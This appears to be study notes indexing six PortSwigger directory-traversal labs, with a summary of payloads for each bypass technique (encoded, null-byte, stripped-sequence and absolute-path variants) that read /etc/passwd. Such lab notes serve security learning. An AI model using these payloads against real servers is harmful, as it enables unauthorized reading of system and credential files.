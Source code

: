 # [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

## Labs

- apprentice:
  - [1. File path traversal, simple case](./lab/1.%20File%20path%20traversal%2C%20simple%20case.md)
- practitioner:
  - [2. File path traversal, traversal sequences blocked with absolute path bypass](./lab/2.%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass.md)
  - [3. File path traversal, traversal sequences stripped non-recursively](./lab/3.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20non-recursively.md)
  - [4. File path traversal, traversal sequences stripped with superfluous URL-decode](./lab/4.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode.md)
  - [5. File path traversal, validation of start of path](./lab/5.%20File%20path%20traversal%2C%20validation%20of%20start%20of%20path.md)
  - [6. File path traversal, validation of file extension with null byte bypass](./lab/6.%20File%20path%20traversal%2C%20validation%20of%20file%20extension%20with%20null%20byte%20bypass.md)

## Summary

payloads:

- simple case:

  ```path
  ../../../../../../../../../../../../../etc/passwd
  ```

- absolute path:

  ```path
  /etc/passwd
  ```

- ?:

  ```path
  ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd 
  ```

- double encoding:

  ```path
  %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
  ```

- fixed first path:

  ```path
  /var/www/images/../../../../../../../../etc/passwd
  ```

- null byte:

  ```path
  ../../../../../../../../../../../../../../../../../../../etc/passwd%00.png
  ```

burpsuite scanner can detected all the cases above except the `fixed first path` one.
